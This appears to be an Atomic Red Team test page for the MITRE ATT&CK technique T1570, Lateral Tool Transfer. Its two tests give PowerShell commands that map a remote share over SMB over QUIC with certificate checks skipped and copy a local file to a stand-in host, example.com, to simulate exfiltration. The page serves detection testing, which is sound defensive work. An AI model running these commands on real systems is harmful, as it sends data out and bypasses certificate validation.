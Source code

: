 # T1570 - Lateral Tool Transfer

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1570)

<blockquote>Adversaries may transfer tools or other files between systems in a compromised environment. Once brought into the victim environment (i.e., [Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105)) files may then be copied from one system to another to stage adversary tools or other files over the course of an operation.

Adversaries may copy files between internal victim systems to support lateral movement using inherent file sharing protocols such as file sharing over [SMB/Windows Admin Shares](https://attack.mitre.org/techniques/T1021/002) to connected network shares or with authenticated connections via [Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001).(Citation: Unit42 LockerGoga 2019)

Files can also be transferred using native or otherwise present tools on the victim system, such as scp, rsync, curl, sftp, and [ftp](https://attack.mitre.org/software/S0095). In some cases, adversaries may be able to leverage [Web Service](https://attack.mitre.org/techniques/T1102)s such as Dropbox or OneDrive to copy files from one machine to another via shared, automatically synced folders.(Citation: Dropbox Malware Sync)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltration Over SMB over QUIC (New-SmbMapping)](#atomic-test-1---exfiltration-over-smb-over-quic-new-smbmapping)

- [Atomic Test #2 - Exfiltration Over SMB over QUIC (NET USE)](#atomic-test-2---exfiltration-over-smb-over-quic-net-use)

<br/>

## Atomic Test #1 - Exfiltration Over SMB over QUIC (New-SmbMapping)

Simulates an attacker exfiltrating data over SMB over QUIC using the New-SmbMapping command.
Prerequisites:

- A file server running Windows Server 2022 Datacenter: Azure Edition
- A Windows 11 computer
- Windows Admin Center

**Supported Platforms:** Windows

**auto_generated_guid:** d8d13303-159e-4f33-89f4-9f07812d016f

#### Inputs:

| Name        | Description                                  | Type   | Default Value                   |
| ----------- | -------------------------------------------- | ------ | ------------------------------- |
| remote_path | The UNC path to the share on the file server | string | &#92;&#92;example.com&#92;sales |
| local_file  | The local file to be transferred             | path   | C:&#92;path&#92;to&#92;file.txt |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
New-SmbMapping -RemotePath '#{remote_path}' -TransportType QUIC -SkipCertificateCheck
copy '#{local_file}' 'Z:\'
```

<br/>
<br/>

## Atomic Test #2 - Exfiltration Over SMB over QUIC (NET USE)

Simulates an attacker exfiltrating data over SMB over QUIC using the NET USE command.
Prerequisites:

- A file server running Windows Server 2022 Datacenter: Azure Edition
- A Windows 11 computer
- Windows Admin Center

**Supported Platforms:** Windows

**auto_generated_guid:** 183235ca-8e6c-422c-88c2-3aa28c4825d9

#### Inputs:

| Name        | Description                                  | Type   | Default Value                   |
| ----------- | -------------------------------------------- | ------ | ------------------------------- |
| remote_path | The UNC path to the share on the file server | string | &#92;&#92;example.com&#92;sales |
| local_file  | The local file to be transferred             | path   | C:&#92;path&#92;to&#92;file.txt |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
NET USE * '#{remote_path}' /TRANSPORT:QUIC /SKIPCERTCHECK
copy '#{local_file}' '*:\'
```

<br/>

